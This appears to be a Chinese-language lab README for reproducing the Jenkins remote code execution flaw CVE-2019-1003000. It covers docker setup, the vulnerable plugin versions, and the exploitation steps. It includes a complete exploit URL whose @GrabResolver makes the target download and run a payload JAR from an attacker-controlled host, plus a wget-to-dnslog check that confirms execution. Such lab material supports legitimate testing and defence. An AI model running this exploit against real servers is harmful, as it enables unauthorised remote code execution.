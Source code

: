 # Jenkins 远程代码执行漏洞（CVE-2019-1003000)


## 原理

参考阅读:

https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

## 测试环境搭建
测试环境编译及运行：

```
docker pull her0ma/CVE-2019-1003000
docker run -d -p 8080:8080 her0ma/cve-2019-1003000
```
也可以进入当前文件所在目录，基于Dockerfile文件构建镜像并搭建漏洞环境，操作如下：

1、基于Dockerfile构建镜像

```
docker build -t cve-2019-1003000 .
```
2、下载漏洞插件，下载地址如下：

* Pipeline: Declarative插件1.3.4版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/pipeline-model-definition/1.3.4/pipeline-model-definition.hpi

* Script Security插件1.48版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/script-security/1.48/script-security.hpi
* Pipeline: Groovy插件2.60版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/workflow-cps/2.60/workflow-cps.hpi

3、运行并进入容器，查看初始密码，初始密码位置

```
/var/jenkins_home/secrets/initialAdminPassword
```
4、安装推荐插件，设置管理密码，并登陆管理账号插件管理-高级功能，上传安装上文中下载的三个漏洞插件。

5、安装插件完成之后，选择重启Jenkins。
## 测试过程
### 1、生成执行命令的Jar文件
生成执行命令的jar包所需的文件都在payload目录下，如下：

* Payload.java 执行命令的Java文件源代码，可以根据测试情况修改其中的命令。
* META-INF 目录中保存了执行JAR包所依赖的方法类

执行build.sh文件，编译生成jar包。

### 2、将jar包放到另外一台可访问的web目录下
存在payload-1.jar文件的目录很重要，如：

```
http://Exploit-HOST/package/payload/1/payload-1.jar
http://Exploit-HOST/package/payload/2/payload-2.jar
```

### 3、访问漏洞利用URL，执行命令
具体漏洞测试url如下：

```
http://<TARGET HOST>/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)%0a
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')%0a
@Grab(group='package', module='payload', version='1')%0a
import Payload;
```
EXPLOIT HOST是保存了JAR文件的服务器IP或域名，group、module、version的值对应了该jar文件的存放路径。修改version的值，对应的jar包的访问路径和文件名也需要发生改变。

访问url的时候，成功利用的之后，请求回显如图：

![](4.png)

查看EXPLOIT HOST的web日志，会看到如下记录：

![](1.png)

说明成功请求下载了执行命令的jar文件，进入容器，可以在如下目录中看到对应的jar文件：

![](2.png)

可利用wget dnslog地址的方式来判断是否成功执行了命令，成功的如图：

![](3.png)

